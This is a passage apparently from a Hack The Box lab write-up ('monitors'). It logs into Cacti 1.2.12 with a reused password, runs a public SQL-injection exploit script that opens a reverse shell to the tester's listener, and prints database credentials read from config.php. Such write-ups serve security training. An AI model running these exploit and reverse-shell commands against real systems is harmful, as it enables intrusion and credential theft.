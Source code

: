 ![Cacti page](monitors_web-2.png)

It hosts the monitoring and fault management framework [Cacti](https://www.cacti.net/) version 1.2.12 from May 2020.
By testing the password found in the WordPress configuration, it is possible to login with that and the username _admin_.

Searching for vulnerabilities in **Cacti**:
```
searchsploit cacti
```

The running version of the application has a **SQL Injection** vulnerability:
```
Cacti 1.2.12 - 'filter' SQL Injection
```

Running the exploit script:
```
python3 49810.py -t http://cacti-admin.monitors.htb -u admin -p 'BestAdministrator@2020!' --lhost 10.10.14.2 --lport 9001
```

After executing the script, the listener on my IP and port 9001 starts a reverse shell as the user _www-data_.

## Privilege Escalation

The file _/usr/share/cacti/cacti/include/config.php_ contains credentials for the database of the **Cacti** application, which could be useful:
```
(...)
$database_type     = 'mysql';
$database_default  = 'cacti';
$database_hostname = 'localhost';
$database_username = 'cacti';
$database_password = 'cactipass';
$database_port     = '3306';
(...)
```
